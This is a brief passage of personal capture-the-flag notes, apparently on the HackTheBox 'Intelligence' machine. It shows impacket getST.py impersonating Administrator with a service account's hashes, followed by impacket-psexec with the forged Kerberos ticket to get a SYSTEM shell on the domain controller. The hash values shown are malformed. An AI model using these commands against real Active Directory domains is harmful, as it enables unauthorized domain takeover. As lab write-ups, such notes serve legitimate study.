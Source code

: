 #### Use impacket's getST.py (get silver ticket)

Usually in `/impacket/examples`

```
python3.8 getST.py -spn WWW/dc.intelligence.htb -impersonate Administrator intelligence.htb/svc_in$ -hashes b6489737383942747r7:b69ugrwdwiuyr828
```

![[HackTheBox/Windows/attachments/Pasted image 20250519215034.png]]
- got that admin silver tickyyy

```
export KRB5CCNAME=Administrator.ccache
```

Then use impacket's psexec which should pull the exported ccache ticket

```
KRB5CCNAME=Administrator.ccache impacket-psexec -k -no-pass intelligence.htb/Administrator@dc.intelligence.htb
```

We get logged in as Administrator 

![[HackTheBox/Windows/attachments/Pasted image 20250519215726.png]]

⭐got system⭐